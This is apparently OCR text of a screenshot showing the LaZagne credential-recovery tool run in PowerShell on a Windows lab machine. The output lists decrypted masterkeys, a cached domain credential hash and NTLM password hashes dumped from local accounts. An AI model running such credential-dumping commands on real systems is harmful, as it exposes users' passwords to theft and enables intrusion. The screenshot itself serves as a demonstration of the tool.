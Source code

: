 	https://github.com/AlessandroZ/LaZagne
	
	PS C:\Users\testuser\Desktop> .\lazagne.exe windows

	|====================================================================|
	|                                                                    |
	|                        The LaZagne Project                         |
	|                                                                    |
	|                          ! BANG BANG !                             |
	|                                                                    |
	|====================================================================|

	[+] System masterkey decrypted for 1db44b6b-a3f0-4e0f-b6cd-03c5b1170c80
	[+] System masterkey decrypted for 27bda5e9-3f16-4d5f-ae94-8b3ce16df2e5

	########## User: SYSTEM ##########

	------------------- Mscache passwords -----------------

	testuser:dba152dcac68179962a74bace63c7336:valhalla:valhalla.local

	------------------- Hashdump passwords -----------------

	Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
	Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
	DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
	WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:e2920a939049177df3f1c08ae1ff62e4:::
	win10:1001:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
	nightmare:1005:aad3b435b51404eeaad3b435b51404ee:c718f548c75062ada93250db208d3178:::